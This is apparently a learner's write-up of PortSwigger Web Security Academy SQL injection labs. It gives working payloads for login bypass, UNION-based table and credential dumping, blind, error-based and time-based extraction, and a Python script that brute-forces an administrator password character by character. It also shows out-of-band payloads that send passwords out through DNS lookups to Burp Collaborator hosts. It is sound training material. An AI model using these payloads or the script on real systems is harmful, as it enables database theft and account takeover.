

# SQL Injection



## **What is SQL injection (SQLi)?**

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

### Lab: [**SQL injection vulnerability allowing login bypass**](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

> To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.
> 


now our goal is to login as Administrator user.

i’ll provide the username as `administrator'-- -` and solve the lab

## **Lab: SQL injection attack, querying the database type and version on Oracle**

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. **Hint**
if we visit the web page


we can see that get parameter category is used to display the results 

let’s try to use the order by to get the number of columns `' ORDER BY 1--`

```bash
https://0a1f003d0412b79780c608aa00f30069.web-security-academy.net/filter?category=Corporate+gifts%27%20ORDER%20BY%202--
```

so i got the error at ORDER BY 3 


so i got to know that there’s 2 columns in the table

after trying somethings i got 

```bash
Corporate+gifts'+UNION+SELECT+banner,null+FROM+v$version--+- 
```


and solved the lab.

## **Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft**

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.
To solve the lab, display the database version string.

Used order by clause to identify the column numbers, found there’s 2 columns in the table `'UNION SELECT '1','2'-- -`

```bash
https://0aa3009a031a91c980b5679c002d00fc.web-security-academy.net/filter?category=Accessories%27%20UNION%20SELECT%20%271%27,%272%27--%20-
```


now to get the version string we can use the `'UNION SELECT '1',@@version-- -`


## **Lab: SQL injection attack, listing the database contents on non-Oracle databases**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the `administrator` user. ****

first i’ve tried to enumerate the version using `@@version`but it was giving the internal server error. google search reveals that the the PostgreSQL also non-oracle DB, and to get the version in postgreSQL we can use `VERSION()` function so i’ve used -  `' UNION SELECT VERSION(),'2'-- -`


so now we need to enumerate the tables in postgreSQL

[PayloadsAllTheThings/SQL Injection/PostgreSQL Injection.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

```bash
' UNION SELECT datname,'2' FROM pg_database-- -
```


<aside>
💡

the pg_database is the master database which stores information about all the DB in the server we can get the DB name in datname column.

</aside>

now to get the table from the DB we can use the below query

```bash
' UNION SELECT table_name,'2' FROM information_schema.tables where table_schema = 
'public' AND table_type = 'BASE TABLE'-- -
```

we can get the current schema by `CURRENT_SCHEMA()` function


now we can enumerate the columns

```bash
' UNION SELECT column_name,'2' FROM information_schema.columns where table_name = 'users_zsrury'-- -
```


now we know password is in **password_sgdzle** and username is in **username_oslgyz**

our query will become

```bash
UNION SELECT username_oslgyz,password_sgdzle FROM users_zsrury-- -
```

and payload 

```bash
' UNION SELECT username_oslgyz,password_sgdzle FROM users_zsrury-- -
```


administrator/d3kqndkqb695tjatvxp4

Now login with obtained creds 

## **Lab: SQL injection attack, listing the database contents on Oracle**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
To solve the lab, log in as the `administrator` user. ****

first thing is we need to do is intercept the web request and then use the ORDER BY query to determine the column numbers as always 2 is the valid number as 3 was giving me error


now i’ll use below query to get list of the tables in DBMS

```sql
#Query
SELECT table_name FROM all_tables

#Payload
'UNION SELECT table_name FROM all_tables-- -
```


as we know the Table Name we can now try to extract the columns from it

```sql
#Query
SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS_PWOQCF'

#Payload
UNION+SELECT+'1',column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_PWOQCF'--+-
```


now let’s extract the Data from DB

```sql
UNION+SELECT+USERNAME_XEOBHA,PASSWORD_PBSYXX+FROM+USERS_PWOQCF--+-
```


submit the creds `administrator:01b3hk6gu3oywuhaxwt3`

## **Lab: SQL injection UNION attack, determining the number of columns returned by the query**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

as our objective is to get the Number of columns usin UNION query i’ll use the NULL statement

```sql
Gifts' UNION SELECT NULL,NULL,NULL-- -
```


## **Lab: SQL injection UNION attack, finding a column containing text**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

***Objective: Make the database retrieve the string: 'l4mYAi’***

```sql
'UNION SELECT 'l4mYAi','l4mYAi','l4mYAi'-- -
```

i’ll use the above query and will get the Internal server error as possibly DBMS returned some error cause all columns is not supporting the STR datatype.

```sql
'UNION SELECT NULL,NULL,NULL-- -
```

it will give without any error. now try to replacing the each values to String


## **Lab: SQL injection UNION attack, retrieving data from other tables**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

so first we’ll determine the number of columns using the ORDER BY query

and there’s 2 columns, first i’ll use below command to determine the what database it is running

```sql
'UNION SELECT @@version,'2'-- - #will work if mysql OR MSSQL
'UNION SELECT VERSION(),'2'-- - #will work if postgresql
```


so we can determine that it is the PostgreSQL

```sql
#Query
SELECT table_name FROM information_schema.tables

#Payload
'UNION SELECT table_name,'2' FROM information_schema.tables-- -
```

to list the tables.


so we can determine the table name is `users`present now we can start enumerating the 

<aside>
💡

The `information_schema` is a collection of read-only views that provide structured information about all database objects. Because it follows the SQL standard, the same queries work across many relational databases (e.g., MySQL, MariaDB, SQL Server).

</aside>

now we need to get the column names as well

```sql
#query
SELECT column_name FROM information_schema.columns WHERE table_name='users'

#payload
'UNION SELECT column_name,'2' FROM information_schema.columns WHERE table_name='users'-- -
```


now we can extract the data from the username and password columns using below query

```sql
#Query
SELECT username,password from users;

#payload
'UNION SELECT username,password from users-- -
```


login with administrator to solve the LAB.

## **Lab: SQL injection UNION attack, retrieving multiple values in a single column**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The database contains a different table called `users`, with columns called `username` and `password`.
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. ****

so we can first browse the website and see what it contains


Looks like only single column it is containing. but then i checked using `ORDER BY` and found it contains 2 columns but only 1 is visible to us let’s check what column number is visible to us

```sql
UNION SELECT '1','2'-- -
```


and found column 2 is visible. let’s check DB version

```sql
'UNION SELECT '1',version()-- -
```

i found the database is PostgreSQL. so we can use `CONCAT()` function in both mysql and postgresql

to combine result of two columns into 1.

```sql
UNION SELECT '1',CONCAT(username,':',password) from users-- -
```


submit the `administrator:**rsgfh6w5ut7d998ao2ob` to solve the LAB**

# Blind SQL Injection

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [`UNION` attacks](https://portswigger.net/web-security/sql-injection/union-attacks) are not effective with blind SQL injection vulnerabilities.

This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## **Exploiting blind SQL injection by triggering conditional responses**

Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:

```sql
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```

When a request containing a `TrackingId` cookie is processed, the application uses a SQL query to determine whether this is a known user:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

This query is vulnerable to SQL injection, but the results from the query are not returned to the user. 

However, the application does behave differently depending on whether the query returns any data. If you submit a recognized `TrackingId`, the query returns data and you receive a "Welcome back" message in the response.

This behavior is enough to be able to exploit the blind SQL injection vulnerability.

You can retrieve information by triggering different responses conditionally, depending on an injected condition.

To understand how this exploit works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

```sql
…xyz' AND '1'='1
…xyz' AND '1'='2
```

- The first of these values causes the query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
- The second value causes the query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.

This allows us to determine the answer to any single injected condition, and extract data one piece at a time.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`. You can determine the password for this user by sending a series of inputs to test the password one character at a time.

To do this, start with the following input:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.

Next, we send the following input:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.

Eventually, we send the following input, which returns the "Welcome back" message, thereby confirming that the first character of the password is `s`:

```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```

<aside>
💡

The `SUBSTRING` function is called `SUBSTR` on some types of database. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

</aside>

<aside>
💡

### Step 2: Extract one character

```
SUBSTRING(password,1,1)
```

`SUBSTRING(string, start, length)` returns part of a string.

- `start = 1` → begin at the first character
- `length = 1` → return one character

For `"secret123"`, this returns:

</aside>

## **Lab: Blind SQL injection with conditional responses**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.
The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.
To solve the lab, log in as the `administrator` user. ****

First we’ll capture the clean request and send to repeater


now i’ll put the `AND '1'='1` payload to make condition true hence it will return the Welcome Back


and for same i’ll use the `AND '1'='2` so it will not return anything, confirming our vulnerability.

```sql
' AND SUBSTRING((SELECT password from users where username = 'administrator'),1,1) < 'a
```

so first to test i’ll just check if the first latter of the password is less than `a` .


so we can try the numbers now


after some fuzzing i found the valid first character of the password is `1` 

now to enumerate 2nd character of the password we can take 2nd in the `SUBSTRING` Function

```sql
SUBSTRING((SELECT password from users where username = 'administrator'),2,1)>'a
```

and it returned Welcome Back page, so that means 2nd character is greater than `a` then after some try we found the valid character is `r` 


same way we found the third character is `n` = `1rn` 

fourth character is `8`  = `1rn9` 

fifth character is `4` 

sixth character is `2` 

seventh character is `h` 

eighth character is `g` 

ninth character is `x` 

tenth character is `t` 

eleventh character is `d` 

12th character is `f` 

….

```sql
1rn842hgxtdfgygx71z0
```

# **Error-based SQL injection**

Error-based SQL injection refers to cases where you're able to use error messages to either extract or infer sensitive data from the database, even in blind contexts.

The possibilities depend on the configuration of the database and the types of errors you're able to trigger:

- You may be able to induce the application to return a specific error response based on the result of a boolean expression. You can exploit this in the same way as the [conditional responses](https://portswigger.net/web-security/sql-injection/blind#exploiting-blind-sql-injection-by-triggering-conditional-responses) we looked at in the previous section.
- You may be able to trigger error messages that output the data returned by the query. This effectively turns otherwise blind SQL injection vulnerabilities into visible ones.

## **Exploiting blind SQL injection by triggering conditional errors**

Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique in the previous section won't work, because injecting different boolean conditions makes no difference to the application's responses.

It's often possible to induce the application to return a different response depending on whether a SQL error occurs. You can modify the query so that it causes a database error only if the condition is true. 

 Very often, an unhandled error thrown by the database causes some difference in the application's response, such as an error message. This enables you to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true:

- With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error.
- With the second input, it evaluates to `1/0`, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

<aside>
💡

A SQL `CASE` expression works like an `if/else`:

```sql
CASE
    WHEN condition THEN result1
    ELSE result2
END
```

here the CASE works as start of the if/else condition.

when shows the condition and then is like [if condition is true then result 1], else result 2

</aside>

## **Lab: Blind SQL injection with conditional errors**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

First i’ll intercept the request and then add the `'` to generate the some kind of the error.


and we got internal server error message, now we know that we can proceed with that.

then i check `SUBSTRING()` function but got the error, so after searching on google i found the `SUBSTR()` function.

so i used that 


```sql
AND SUBSTR('test',1,1)='t
```

so it returns the output without any error that means our query didn’t return any error and executed successfully.

but from this behavior we can not get the information we wanted hence we can not use this technique here.

to understand how the query is working properly i have the test database in mysql


so we can see that the table has 4 columns - id, username, password and status so let’s for example take below query that is executed by the database in the above challenge

```sql
SELECT * from users where status = '1'
```

now let’s use the select case to determine the query results.

```sql
select * from users where status = '1' AND (CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a';
```


and it is returning the output without any error. because the condition was false and it didn’t try to divide 1 by 0 and executed the else condition which returned the `a` and at the end of query we are comparing the `a` = a

now let’s do same with true condition `1=1` 

```sql
select * from users where status = '1' AND (CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a';
```


so as we can see that we got 1 warning.

<aside>
💡

To execute the oracle DB queries to understand how it is working in backend - https://freesql.com/

</aside>

To determine the DB type:

**MySQL & PostgreSQL:** Force an error by dividing by zero when a condition is true (e.g., `AND IF(1=1, (SELECT table_name FROM information_schema.tables), 1)`).

**Oracle:** Force an error using a division by zero error wrapped in a `CASE` statement. Because Oracle requires selecting from a valid table, you must append `FROM dual` (e.g., `SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual`).

**MSSQL:** Trigger an error by converting a string to an integer, typically through `convert(int, @@version)`

i’ve first checked with the mysql and postgresql but didn’t get anything let’s use the oracle one

below query worked, and returned the result:

```sql
AND (CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END)='a';
```


and if we put condition true `(1=1)` it returns the internal server error.

now to get the password from the table users for administrator user we can use the substr function and compare each and every character.

```sql
(CASE WHEN SUBSTR((SELECT password from users where username = 'Administrator'),1,1)='a' THEN TO_CHAR(1/0) ELSE 'a') = 'a'
```


it didn’t give any error so the first character is not the `a`

but the query is not working for the any of the conditions so i tried to troubleshoot and then found i’ve used the `Administrator` instead of `administrator` 

i’ll use the intruder to automate this attack. 


we got our first character. - `p`

same way we just need to update the query to get 2nd character:

```sql
(CASE WHEN SUBSTR((SELECT password from users where username = 'Administrator'),2,1)='a' THEN TO_CHAR(1/0) ELSE 'a') = 'a'
```

and we got our 2nd character -  `w` 

same way we got the full password.

```sql
pwb4weyq6gvwty6fmy0o
```

i’ve written below code to automate this:

```sql
import requests

URL = 'https://0a56009a04d38de68048089000480024.web-security-academy.net' 
cookies = {'TrackingId':'eVq2krDMt3tkdvYm\'',
           'session':'PJJJKMKvxrSV0eE1HvosoBdRSt6cztH0'}

#cookie manipulation

#print(payload_list['TrackingId'])

charset = 'abcdefghijklmnopqrstuvwxyz1234567890'

count = 0
password = ''

while count <= 20:
     for i in range(1,20):
          print(f"testing for position {i}")
          payload = f"{cookies['TrackingId']}+AND+(CASE+WHEN+SUBSTR((SELECT+password+from+users+where+username+=+\'administrator\'),{i},1)='a'+THEN+TO_CHAR(1/0)+ELSE+\'a\'+END)=\'a"

          for char in charset:
               print(f'Testing character {char}')
               payload = f"{cookies['TrackingId']}+AND+(CASE+WHEN+SUBSTR((SELECT+password+from+users+where+username+=+\'administrator\'),{i},1)='{char}'+THEN+TO_CHAR(1/0)+ELSE+\'a\'+END)=\'a"
               
               payload_list = {'TrackingId':payload}
               #print(payload_list['TrackingId'])
               response = requests.get(url=URL,cookies=payload_list)
               
               if response.status_code == 500:
                    print(f"Payload worked! - {char}")
                    password += char
                    print(f"password - {password}")
                    break
               else:
                    pass
               count += 1
               

     print(f"final password - {password}")
```

## **Extracting sensitive data via verbose SQL error messages**

Misconfiguration of the database sometimes results in verbose error messages.

These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an `id` parameter:

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

We can see that in this case, we're injecting into a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload. Commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax.

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one.

You can use the `CAST()` function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement:

```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:

```sql
ERROR: invalid input syntax for type integer: "Example data"
```

This type of query may also be useful if a character limit prevents you from triggering conditional responses.

## **Lab: Visible error-based SQL injection**

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

let’s try to inject the `'` in TrackingId cookie


Boom we can see the exact SQL query.

then let’s try to convert normal string into INT


but the error says that argument of `AND` must be type boolean.

```sql
AND 1=CAST((SELECT 1)as int)-- -
```

and it worked without any error

now let’s try to execute below query

```sql
AND 1=CAST((SELECT password from users where username = 'administrator')as int)--+-
```


but looks like our query is breaking due to some limitations.

let’s try to get the version

```sql
AND 1=CAST((select version())as INT)--
```


and now we can use the same to try to get the password.


but there’s also one limitation that subquery should only contain 1 row.

but we can limit the results to 1 row using `LIMIT` but we want to know the row number that contains data about 

```sql
AND 1=CAST((select username from users limit)as int)-- -
```


lucky!! we got the first row for administrator. so for the same we can get the password.


→ uk4amrs02bv890svdms4

## **Exploiting blind SQL injection by triggering time delays**

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false.

As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response.

This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response.

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

- The first of these inputs does not trigger a delay, because the condition `1=2` is false.
- The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

## **Lab: Blind SQL injection with time delays**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. ****

after trying different payloads for the different DBs the postgresql worked for me:

```sql
'; SELECT pg_sleep(5)-- -
```


To solve the lab, trigger the 10 seconds delay.

## **Lab: Blind SQL injection with time delays and information retrieval**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

first i’ll confirm what database system is running on the target, so from last lab i used the postgresql payload


and it worked to play with postgresql queries and learn it - https://www.pgtutorial.com/playground/

```sql
select * from users where user_id = '1'; select case when (1=1) then (select pg_sleep(5)) else 'a' end-- -
```

in playground above query worked for me.

so we can use the select case in our query with the combination of substring

```sql
SELECT case when (SUBSTR((SELECT password from users where username = 'administrator'),1,1)>'a') then (select pg_sleep(5)) else 'a' end-- -
```


to find first character i’ve used the `<` and found the first character is `r`

```sql
rceqfnljzwxtgl6c5ghi
```

Bingo we got the password!!

## **Exploiting blind SQL injection using out-of-band (OAST) techniques**

An application might carry out the same SQL query as the previous example but do it asynchronously. 

The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie.

The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.

These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services, including DNS. 

It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.

The techniques for triggering a DNS query are specific to the type of database being used.

For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

```sql
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

## **Lab: Blind SQL injection with out-of-band interaction**

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

i’ve checked the different payloads and the oracle one worked for me

```sql
UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://<instance-id>.oastify.com/a"> %remote;]>'),'/l') FROM dual-- -
```


Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```sql
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. 

For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.